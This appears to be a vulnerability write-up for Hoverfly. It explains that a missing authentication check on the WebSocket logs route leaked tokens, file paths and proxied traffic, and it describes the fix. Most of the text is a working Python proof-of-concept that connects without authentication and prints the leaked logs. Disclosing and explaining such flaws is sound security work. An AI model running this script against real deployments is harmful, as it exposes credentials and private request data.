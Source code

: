 **Key points:**

-   Auth middleware was missing on the WS route, so no token check occurred during the upgrade handshake.
-   This exposed sensitive logs (file paths, tokens, request/response bodies) to any remote attacker with network access.
-   The fix wraps the handler with `RequireTokenAuthentication`, enforcing the same authentication process as the REST API.

## Exploitability

The [GH security advisory](https://github.com/SpectoLabs/hoverfly/security/advisories/GHSA-jxmr-2h4q-rhxp) contains a basic PoC, which is automated below. It demonstrates that a remote attacker can bypass authentication and receive full application logs, including proxied request/response bodies, tokens, file paths, etc.

### PoC

```python
import argparse, sys, time, websocket

def main():
    p=argparse.ArgumentParser()
    p.add_argument("--host", required=True)
    p.add_argument("--port", type=int, default=8888)
    p.add_argument("--path", default="/api/v2/ws/logs")
    p.add_argument("--scheme", choices=["ws","wss"], default="ws")
    p.add_argument("--token", default="")
    p.add_argument("--origin", default="")
    p.add_argument("--timeout", type=int, default=10)
    args=p.parse_args()

    url=f"{args.scheme}://{args.host}:{args.port}{args.path}"
    headers=[]
    if args.token:
        headers.append(f"Authorization: Bearer {args.token}")
    if args.origin:
        headers.append(f"Origin: {args.origin}")

    ws=websocket.WebSocketApp(url, header=headers, on_message=lambda w,m: print(m), on_error=lambda w,e: sys.stderr.write(str(e)+"\n"), on_close=lambda w,c,m: sys.stderr.write("closed\n"))
    def on_open(w):
        try:
            w.send("meow")
        except Exception as e:
            sys.stderr.write(str(e)+"\n")
    ws.on_open=on_open
    try:
        ws.run_forever(ping_interval=30, ping_timeout=10, ping_payload="ping", timeout=args.timeout)
    except KeyboardInterrupt:
        pass

if __name__=="__main__":
    main()
```
